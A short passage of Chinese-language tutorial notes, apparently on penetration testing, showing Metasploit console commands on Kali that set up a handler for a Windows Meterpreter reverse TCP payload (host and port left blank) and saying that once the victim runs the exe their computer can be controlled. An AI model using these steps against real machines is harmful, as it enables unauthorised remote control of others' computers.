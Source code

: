    KAli回到msfconsole：

   use exploit/multi/handler

   set payload windows/x64/meterpreter/reverse_tcp 

   set lhost

   set lport

   一旦运行了exe，那么成功劫持，可以用一些操作控制对方电脑。
   
   常用指令：
   
   ![image-20250321094122484](assets/image-20250321094122484.png)



![image-20250321093606683](assets/image-20250321093606683.png)
